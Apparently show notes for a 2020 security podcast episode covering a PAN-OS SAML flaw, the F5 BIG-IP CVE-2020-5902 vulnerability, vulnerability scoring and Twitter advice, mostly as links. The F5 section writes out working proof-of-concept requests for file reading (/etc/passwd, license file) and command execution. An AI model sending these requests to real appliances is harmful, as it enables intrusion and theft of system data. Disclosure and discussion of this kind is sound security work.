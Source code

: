 ```yaml
---
title: "2020-026- WISP PSA PAN-OS vuln redux F5 has a bad weekend vuln scoring Twitter advice and more"
date: Wed, 08 Jul 2020 06:04:49 +0000
draft: false
type: posts
categories: 
- 
---
```

# 2020-026- WISP PSA PAN-OS vuln redux F5 has a bad weekend vuln scoring Twitter advice and more

<br/>

<br/>
1st: WISP.org PSA from Rachel Tobac (@racheltobac) & @wisporg talking about #shareTheMicInCyber

#SAML PAN-OS: [https://twitter.com/RyanLNewington/status/1278074919092289537](https://twitter.com/RyanLNewington/status/1278074919092289537)

 F5 vulnerability:

[https://www.wired.com/story/f5-big-ip-networking-vulnerability/](https://www.wired.com/story/f5-big-ip-networking-vulnerability/)

[https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/](https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/)

F5 Mitigation (if patching is not immediately possible): [https://twitter.com/TeamAresSec/status/1280590730684256258](https://twitter.com/TeamAresSec/status/1280590730684256258)

**Redirect 404 /**

[https://twitter.com/wugeej/status/1280008779359125504](https://twitter.com/wugeej/status/1280008779359125504) \- Tweet with PoC for the LFI and RCE

F5 Big-IP CVE-2020-5902 LFI and RCE

LFI

https:///tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

or /etc/hosts

or /config/bigip.license

RCE

https:///tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

How to cope in a no-win situation:  
  
[https://twitter.com/datSecuritychic/status/1280527467569008640](https://twitter.com/datSecuritychic/status/1280527467569008640)

![F5 PoC vuln tweet](https://assets.libsyn.com/secure/show/50535/f5_vuln-tweet.png)

Semicolon in bash: [https://docstore.mik.ua/orelly/unix3/upt/ch28\_16.htm#:~:text=When%20the%20shell%20sees%20a,once%20at%20a%20single%20prompt.](https://docstore.mik.ua/orelly/unix3/upt/ch28_16.htm#:~:text=When%20the%20shell%20sees%20a,once%20at%20a%20single%20prompt.)

#### [Source](http://brakeingsecurity.com/2020-026-wisp-psa-pan-os-vuln-redux-f5-has-a-bad-weekend-vuln-scoring-twitter-advice-and-more)

<br/>
---

